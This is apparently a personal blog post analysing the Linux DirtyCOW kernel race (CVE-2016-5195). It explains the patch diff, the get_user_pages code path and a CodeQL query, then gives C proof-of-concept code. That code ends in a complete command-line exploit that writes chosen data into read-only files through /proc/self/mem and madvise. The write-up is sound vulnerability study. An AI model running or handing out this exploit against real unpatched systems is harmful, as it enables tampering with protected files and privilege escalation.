



So I decided to look into some old famous CVEs, starting with DirtyCOW. DirtyCOW gained a lot of popularity because of its ease of exploitation and ability to write to read-only memory regions. In this blog, I will start with analysis of the vulnerability and then writing an exploit while learning new things about the kernel. I will be using Linux Kernel v4.8.2 as the target environment for developing the exploit.

# Analysis
## The Patch
The patch for DirtyCOW is applied in [this commit](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619):
```diff
diff --git a/include/linux/mm.h b/include/linux/mm.h
index e9caec6a51e97a..ed85879f47f5f7 100644
--- a/include/linux/mm.h
+++ b/include/linux/mm.h
@@ -2232,6 +2232,7 @@ static inline struct page *follow_page(struct vm_area_struct *vma,
 #define FOLL_TRIED	0x800	/* a retry, previous pass started an IO */
 #define FOLL_MLOCK	0x1000	/* lock present pages */
 #define FOLL_REMOTE	0x2000	/* we are working on non-current tsk/mm */
+#define FOLL_COW	0x4000	/* internal GUP flag */
 
 typedef int (*pte_fn_t)(pte_t *pte, pgtable_t token, unsigned long addr,
 			void *data);
diff --git a/mm/gup.c b/mm/gup.c
index 96b2b2fd0fbd13..22cc22e7432f60 100644
--- a/mm/gup.c
+++ b/mm/gup.c
@@ -60,6 +60,16 @@ static int follow_pfn_pte(struct vm_area_struct *vma, unsigned long address,
 	return -EEXIST;
 }
 
+/*
+ * FOLL_FORCE can write to even unwritable pte's, but only
+ * after we've gone through a COW cycle and they are dirty.
+ */
+static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
+{
+	return pte_write(pte) ||
+		((flags & FOLL_FORCE) && (flags & FOLL_COW) && pte_dirty(pte));
+}
+
 static struct page *follow_page_pte(struct vm_area_struct *vma,
 		unsigned long address, pmd_t *pmd, unsigned int flags)
 {
@@ -95,7 +105,7 @@ retry:
 	}
 	if ((flags & FOLL_NUMA) && pte_protnone(pte))
 		goto no_page;
-	if ((flags & FOLL_WRITE) && !pte_write(pte)) {
+	if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {
 		pte_unmap_unlock(ptep, ptl);
 		return NULL;
 	}
@@ -412,7 +422,7 @@ static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
 	 * reCOWed by userspace write).
 	 */
 	if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
-		*flags &= ~FOLL_WRITE;
+	        *flags |= FOLL_COW;
 	return 0;
 }
```

with the following message:
```
mm: remove gup_flags FOLL_WRITE games from __get_user_pages()

This is an ancient bug that was actually attempted to be fixed once
(badly) by me eleven years ago in commit 4ceb5db9757a ("Fix
get_user_pages() race for write access") but that was then undone due to
problems on s390 by commit f33ea7f404e5 ("fix get_user_pages bug").

In the meantime, the s390 situation has long been fixed, and we can now
fix it by checking the pte_dirty() bit properly (and do it better).  The
s390 dirty bit was implemented in abf09bed3cce ("s390/mm: implement
software dirty bits") which made it into v3.9.  Earlier kernels will
have to look at the page state itself.

Also, the VM has become more scalable, and what used a purely
theoretical race back then has become easier to trigger.

To fix it, we introduce a new internal FOLL_COW flag to mark the "yes,
we already did a COW" rather than play racy games with FOLL_WRITE that
is very fundamental, and then use the pte dirty flag to validate that
the FOLL_COW flag is still valid.
```

This references [another commit](https://github.com/torvalds/linux/commit/4ceb5db9757aaeadcf8fbbf97d76bd42aa4df0d6) which tried to fix this bug, that commit has following message:
```
Fix get_user_pages() race for write access

There's no real guarantee that handle_mm_fault() will always be able to
break a COW situation - if an update from another thread ends up
modifying the page table some way, handle_mm_fault() may end up
requiring us to re-try the operation.

That's normally fine, but get_user_pages() ended up re-trying it as a
read, and thus a write access could in theory end up losing the dirty
bit or be done on a page that had not been properly COW'ed.

This makes get_user_pages() always retry write accesses as write
accesses by making "follow_page()" require that a writable follow has
the dirty bit set.  That simplifies the code and solves the race: if the
COW break fails for some reason, we'll just loop around and try again.
```

This message describes a race condition where one (kernel) thread is in the middle of handling a COW fault while another thread performs an operation on the (same) Page Table Entry (PTE) (for example, `munmap`-ing or `mremap`-ing the address). This can cause the COW operation to fail when [one of the several checks](https://elixir.bootlin.com/linux/v4.8.2/source/mm/memory.c#L2394) make sure that the PTE passed to them is still the one the address maps to.

But the two commits are 11 years apart and the kernel evolved a lot in that time. Lets focus on the patch commit. It involves three functions:
- [`__get_user_pages()`](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L519)
- [`follow_page_pte()`](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L63)
- [`faultin_page()`](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L354)

## Get User Pages (GUP)
`__get_user_pages()` function is the Get-User-Pages (GUP) function. It is used by other kernel functions to get list of pages backing a memory area in a user-space process. It is given the memory range, the permissions required of those pages and other miscellaneous flags. Then the desired operations are performed on the return page(s).

`follow_page_pte()` is the sibling function of `follow_page_mask()`. It is used to get the backing page of a user-space address in Virtual Memory Area (VMA). It is given the VMA, the user-space address, permissions required of that page and other flags.

`faultin_page()` is the function called to perform a synthetic fault on a memory address. It is given the VMA, the address and flags for the fault.

These three relate to one another in the `__get_user_pages()` function. When this function is called, it finds the VMA for the memory address requested, attempts to get the backing page via `follow_page_mask()` which calls `follow_page_pte()`, if `follow_page_pte()` returns `NULL` then `faultin_page()` is called to perform a fault on that page based on criteria given to `__get_user_pages()`.


Looking at GUP flags (`FOLL_*`) `FOLL_WRITE` and `FOLL_FORCE` look interesting and seem to be related to the second commit patch code. `FOLL_WRITE` is given when the pages will be written to later. `FOLL_FORCE` flag is the most interesting, it used to force a `FOLL_WRITE` on even non-writable pages. It does this by making a copy of the page and giving the copy to the requesting function and replaces the PTE as well.

This seemingly weird flag is used in special situations. One situation that is described as [an example in commits](https://github.com/torvalds/linux/commit/878b63ac889df706d01048f2c110e322ad2f996d) is in `ptrace`. When a parent process calls `ptrace(child_pid, PTRACE_POKEDATA, child_addr, some_data)` to write some data to `child_addr`, it should be able to do it even for read-only pages, right? e.g., if `ptrace` is called on a `.text` region of some library to add the breakpoint instruction `0xcc`.

But the implementation of this special case looks like a band-aid fix. This case goes to `follow_page_pte()` with `FOLL_WRITE|FOLL_FORCE` and fails [here](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L98) if the requested PTE is not writable, then `faultin_page()` is called with same flags and it allocates a writable page and replaces the PTE with the new one via the COW path and then the `FOLL_WRITE` flag is [just removed](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L414) from the GUP flags. Then `follow_page_pte()` is called without `FOLL_WRITE` (basically as a read operation) to get the newly allocated page.

## The rabbit hole...
I went down the rabbit hole of trying to make the race described in the second commit work. But the changes in the code between the commits made that race impossible because there was no case where a COW allocation would fail and still return `VM_FAULT_WRITE`. And without this return flag, the `FOLL_WRITE` flag wasn't removed.
But I kept trying to come up with a case that would make this happen.

After beating my head with the wall for a couple of months, I decided to look at the DirtyCOW exploit. I found the missing piece of the puzzle...

## A way to discard the COW page
Did you know that you could discard the COW allocated page? I didn't. It turns out there's a system call `madvise`. The syscall has the following description in its man page:
```
The madvise() system call is used to give advice or directions to the kernel about the address range beginning at address addr and with size size.

madvise() only operates on whole pages, therefore addr must be page-aligned.  The value of size is rounded up to a multiple of page size.  In most cases, the goal of such advice is to improve system or application performance.
```

The directions include that the process will access the memory in random order or sequential order and will need or won't need the memory in near future.

The advise/direction `MADV_DONTNEED` discards the COW page when called on a memory range. This is true even if the page is dirty (since all COW pages are marked dirty right when they are allocated). This is because the kernel expects the user to be responsible about it. Subsequent access will use up-to-date data from the underlying mapped file.

Following is the flow for page discard using `madvise`, order of operations is top-to-bottom and left-to-right.

On subsequent **read** access, the following flow will take place:


So how does it piece together?

## The Race
So the actual race that triggers the bug is making `madvise(DONT_NEED)` discard the newly allocated (using `faultin_page`) before `__get_user_pages` loops back to `follow_page_mask`. This is problematic because `FOLL_WRITE` has been removed from the flags and `follow_page_mask` fails because there is no PTE (removed by `madvise`) and `faultin_page` allocates a PTE that is intended for **read-only** access with the pagecache page of the mapped file (as described above).

Now `follow_page_mask` returns the read-only page but the caller (of `__get_user_pages`) will write to page because it requested for a writeable page.

# Exploit
In order to find all possible paths to `__get_user_pages` function from syscalls or other callbacks, I used the following [CodeQL](https://codeql.github.com/) query to find the paths. The `UncalledFunction` class models the functions that don't have any defined caller. This works because syscall functions are not directly called by other kernel functions and callbacks like `file_operations` callbacks (although sometimes called by other function) are reachable by the user
```codeql
/**
 * @kind path-problem
 */

import cpp

class UncalledFunction extends Function {
    // UncalledFunction() {getName().prefix(4) = "SyS_"} // for only syscalls
    UncalledFunction() {this.hasDefinition() and not exists(FunctionCall call | call.getTarget() = this)}
}

class GUP extends Function {
    GUP() {getName() = "__get_user_pages"}
}

query predicate edges(Function a, Function b) { a.calls(b) }

from GUP target, UncalledFunction start
where edges+(start, target)
select start, start, target, "Path starts from function " + start
```
This gives a total of 67 results. I manually filtered the results for the paths that (allow to) perform the force write case and allow to control the written data. The results include the `ptrace(PTRACE_POKEDATA)` case and some other interesting ones (we will talk about these later).

## The ptrace attempt
It was natural to try to exploit the CVE using `ptrace`. Following is the code for it.
```C
#define _DEFAULT_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <sys/ptrace.h>

uint64_t *ptr = NULL;
uint64_t orig_val = 0;

void parent(int pid);
void child();

int main(int argc, char *argv[]){
    if (argc < 2){
        printf("Usage: %s <file>\n", argv[0]);
        return 1;
    }

    int fd = open(argv[1], O_RDONLY);

    ptr = mmap(NULL, 0x1000, PROT_READ, MAP_PRIVATE, fd, 0);

    if (ptr == NULL){
        perror("mmap");
        return 1;
    }

    orig_val = *ptr;

    int pid = fork();

    switch (pid)
    {
    case 0:
        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP);
        child();
        break;
    
    default:
        parent(pid);
        break;
    }

    return 0;
}

void parent(int pid){
    int status;

    waitpid(pid, &status, 0);

    if (WIFSTOPPED(status)){
        ptrace(PTRACE_CONT, pid);
    }

    while (*ptr == orig_val){
        puts("before kill");
        if (kill(pid, SIGSTOP) < 0){
            perror("kill");
        }

        if (waitpid(pid, &status, 0) < 0){
            perror("waitpid");
        }
        
        if (WIFSTOPPED(status) && ptrace(PTRACE_POKEDATA, pid, ptr, 0x1337c0decafebabe) < 0){
            perror("ptrace");
        }
        puts("ptrace called");
        ptrace(PTRACE_CONT, pid);
    }

    kill(pid, SIGKILL);

    printf("data: %p\n", *ptr);
}

void child(){
    while (1){
        madvise(ptr, 0x1000, MADV_DONTNEED);
        puts("madvise called");
    }
}
```

But this exploit does not work. Some sources mention that it can be done (although I found no exploit that does use `ptrace`), but I wasn't able to make it work.
~~My theory is that it is due to the `ptrace(PTRACE_POKEDATA)` requirement that the child process needs to be stopped before `ptrace(PTRACE_POKEDATA)`. For that a `SIGSTOP` signal must be sent and we need to wait for the child process to stop. This introduces latency in the race and `__get_user_pages` [`cond_resched()`](https://elixir.bootlin.com/linux/v4.8.2/source/mm/gup.c#L576) makes the thread stop before redoing `follow_page_mask` and it might stop continue the syscall when continued.~~
This is because `ptrace` semantics are not compatible with semantics required for the exploit. In order to win the race, the `madvise` call and the force write operation need to be done **concurrently** but `ptrace(PTRACE_POKEDATA)` requires the child process to be stopped before doing the force write. This stops the `madvise` call until the force write is done. Hence, no way we can win the race.

An alternative would have been the syscall `process_vm_writev`, but that path doesn't include the `FOLL_FORCE` flag. So that's out of question

## The process memory punch-hole
There's another path to `__get_user_pages` that is via the `mem_write` function. This function is [found](https://elixir.bootlin.com/linux/v4.8.2/source/fs/proc/base.c#L933) in `file_operations` of `/proc/<pid>/mem` file and is responsible for `write` syscall on this file. This file represents the memory of a process. Calling `write` on this file, data will be written to the process memory at the address specified by the file pointer.
It turns out, this file has special semantics. It allows to write to memory area that is mapped as read-only. This feature is called memory punch hole. This feature is used by a bunch of different tools including various debuggers. But this file can only be opened by the creator of the process.

We can use this feature to replace the `ptrace(PTRACE_POKEDATA)` and this gets rid of the problem we had with `ptrace` as well. We can simply use two threads to win the race.
```C
#define _DEFAULT_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdint.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>

uint64_t *ptr = NULL;
uint64_t orig_val = 0;

void parent(int pid);
void child();
void *madviseThread(void*);
void *writeThread(void*);

int main(int argc, char *argv[]){
    if (argc < 2){
        printf("Usage: %s <file>\n", argv[0]);
        return 1;
    }

    int fd = open(argv[1], O_RDONLY);

    ptr = mmap(NULL, 0x1000, PROT_READ, MAP_PRIVATE, fd, 0);

    if (ptr == NULL){
        perror("mmap");
        return 1;
    }

    orig_val = *ptr;

    int pid = fork();

    switch (pid)
    {
    case 0:
        child();
        break;
    
    default:
        parent(pid);
        break;
    }

    return 0;
}

void parent(int pid){
    while (*ptr == orig_val);

    kill(pid, SIGKILL);

    printf("data: %p\n", *ptr);
}

void child(){
    pthread_t t1, t2;

    pthread_create(&t1, NULL, madviseThread, NULL);
    pthread_create(&t2, NULL, writeThread, NULL);

    pthread_join(t1, NULL);
    pthread_join(t2, NULL);
}

void *madviseThread(void *arg){
    while (1) {
        madvise(ptr, 0x1000, MADV_DONTNEED);
    }

    return NULL;
}

void *writeThread(void *arg){
    int fd = open("/proc/self/mem", O_RDWR);

    if (fd < 0){
        perror("open");
        return NULL;
    }
    
    uint64_t val = 0x1337babecafebabe;

    while (1){
        if (lseek(fd, (off_t) ptr, SEEK_SET) != (off_t)ptr){
            perror("lseek");
            break;
        }

        if (write(fd, &val, sizeof(val)) != sizeof(val)){
            perror("write");
            break;
        }
    }

    return NULL;
}
```

## Why the patch works?
The patch introduces a new GUP flag, `FOLL_COW`, that tells `__get_user_pages` that COW has been done and it introduces a new function `can_follow_write` in `follow_page_pte`. For write, this function ensure either the pte is writable or flags contain `FOLL_FORCE` and `FOLL_COW` and the page is dirty (that it should be since it has been COWed).

Interestingly, the patch was extended to HugeTLB that introduced a new bug, dubbed [HugeDirtyCOW](https://nvd.nist.gov/vuln/detail/CVE-2017-1000405).
# Final Exploit
```C
#define _DEFAULT_SOURCE
#include <fcntl.h>
#include <getopt.h>
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>

#define PAGESIZE 0x1000
#define OPTSTR "f:o:d:"
#define OPTLONGS {{"file", required_argument, NULL, 'f'}, \
                  {"offset", required_argument, NULL, 'o'}, \
                  {"data", required_argument, NULL, 'd'}, \
                  {NULL, 0, NULL, 0}}

typedef struct {
    pid_t pid;
    char *file;
    size_t offset;
    char *data;
    size_t data_len;
    unsigned long *addr;
    unsigned long orig_val;
} Context;

void parent(Context* ctx);
void child(Context* ctx);
void *madviseThread(void*);
void *writeThread(void*);
int parse_args(int argc, char *argv[], Context *ctx);

int main(int argc, char *argv[]){
    Context ctx = {0};

    if (parse_args(argc, argv, &ctx) != 0) {
        fprintf(stderr, "Usage: %s -f <file> [-o <offset>] -d <data>/@<file>\n", argv[0]);
        fprintf(stderr, "Options:\n");
        fprintf(stderr, "  -f, --file <file>       Specify the file to operate on\n");
        fprintf(stderr, "  -o, --offset <offset>   Specify the offset in the file (default: 0)\n");
        fprintf(stderr, "  -d, --data <data>       Specify the data to write (can be a string or a file path, file path start with @)\n");
        fprintf(stderr, "Example: %s -f /path/to/file -o 12 -d 'Hello World'\n", argv[0]);
        fprintf(stderr, "Example: %s -f /path/to/file -d @/path/to/datafile\n", argv[0]);
        return 1;
    }
    
    int fd = open(ctx.file, O_RDONLY);
    if (fd < 0){
        perror("open");
        return 1;
    }

    size_t fileSize = lseek(fd, 0, SEEK_END);
    ctx.addr = mmap(NULL, fileSize, PROT_READ, MAP_PRIVATE, fd, 0);

    if (ctx.addr == MAP_FAILED){
        perror("mmap");
        return 1;
    }

    ctx.addr = (unsigned long *)((char *)ctx.addr + ctx.offset);
    ctx.orig_val = *ctx.addr;
    ctx.pid = fork();

    switch (ctx.pid)
    {
    case 0:
        child(&ctx);
        break;
    
    default:
        parent(&ctx);
        break;
    }

    return 0;
}

void parent(Context* ctx){
    while (*ctx->addr == ctx->orig_val);

    kill(ctx->pid, SIGKILL);
}

void child(Context* ctx){
    pthread_t t1, t2;

    pthread_create(&t1, NULL, madviseThread, ctx);
    pthread_create(&t2, NULL, writeThread, ctx);

    pthread_join(t1, NULL);
    pthread_join(t2, NULL);
}

void *madviseThread(void *arg){
    Context *ctx = (Context *)arg;

    while (1) {
        madvise((void *)((unsigned long)ctx->addr & ~(PAGESIZE - 1)), PAGESIZE, MADV_DONTNEED);
    }

    return NULL;
}

void *writeThread(void *arg){
    Context *ctx = (Context *)arg;
    int fd = open("/proc/self/mem", O_RDWR);

    if (fd < 0){
        perror("open");
        return NULL;
    }

    while (1){
        if (lseek(fd, (off_t) ctx->addr, SEEK_SET) != (off_t)ctx->addr){
            perror("lseek");
            break;
        }

        if (write(fd, ctx->data, ctx->data_len) != ctx->data_len){
            perror("write");
            break;
        }
    }

    return NULL;
}

int parse_args(int argc, char *argv[], Context* ctx) {
    int opt;
    ctx->offset = -1;
    int option_index = 0;
    struct option long_options[] = OPTLONGS;

    while ((opt = getopt_long(argc, argv, OPTSTR, long_options, &option_index)) != -1) {
        switch (opt) {
            case 'f':
                ctx->file = optarg;
                if (access(ctx->file, R_OK) != 0) {
                    perror("File access error");
                    return 1;
                }
                break;

            case 'o':
                ctx->offset = strtoul(optarg, NULL, 0);
                if (ctx->offset == 0 && optarg[0] != '0') {
                    fprintf(stderr, "Invalid offset value\n");
                    return 1;
                }
                if (ctx->offset < 0) {
                    fprintf(stderr, "Offset must be a non-negative integer\n");
                    return 1;
                }
                break;

            case 'd':
                ctx->data = optarg;
                if (optarg[0] == '@'){
                    if (access(&optarg[1], R_OK) != 0){
                        perror("File access error");
                        return 1;
                    }

                    int fd = open(&optarg[1], O_RDONLY);
                    if (fd < 0) {
                        perror("Failed to open data file");
                        return 1;
                    }
                    ctx->data_len = lseek(fd, 0, SEEK_END);
                    if (ctx->data_len < 0) {
                        perror("Failed to determine data length");
                        close(fd);
                        return 1;
                    }
                    ctx->data = mmap(NULL, ctx->data_len, PROT_READ, MAP_PRIVATE, fd, 0);
                    if (ctx->data == MAP_FAILED) {
                        perror("Failed to mmap data file");
                        close(fd);
                        return 1;
                    }
                    close(fd);
                }
                else {
                    ctx->data_len = strlen(optarg);
                }

                if (ctx->data_len == 0) {
                    fprintf(stderr, "Data cannot be empty\n");
                    return 1;
                }
                if (ctx->data_len > 0x1000) {
                    fprintf(stderr, "Data length exceeds maximum limit of 4096 bytes\n");
                    return 1;
                }
                break;

            case '?':
                fprintf(stderr, "Invalid option\n");
                break;

            default:
                fprintf(stderr, "Unknown option: %c\n", opt);
                break;
        }
    }

    if (ctx->offset == -1) {
        ctx->offset = 0;
    }
    if (ctx->file == NULL) {
        fprintf(stderr, "File must be specified with -f or --file\n");
        return 1;
    }
    if (ctx->data == NULL) {
        fprintf(stderr, "Data must be specified with -d or --data\n");
        return 1;
    }

    return 0;
}
```

# Conclusion
In this little adventure, I learnt about Memory management internals of Linux, `ptrace`, `madvise` and the memory punch hole. This exercise of looking into old CVEs seems great to learn about Linux internals and catch up with state of Linux kernel security. Hopefully, I will keep doing this exercise.

If you find any error or have any doubt, you can reach out to be on discord `@stdnoerr` or twitter `stdnoerr`.
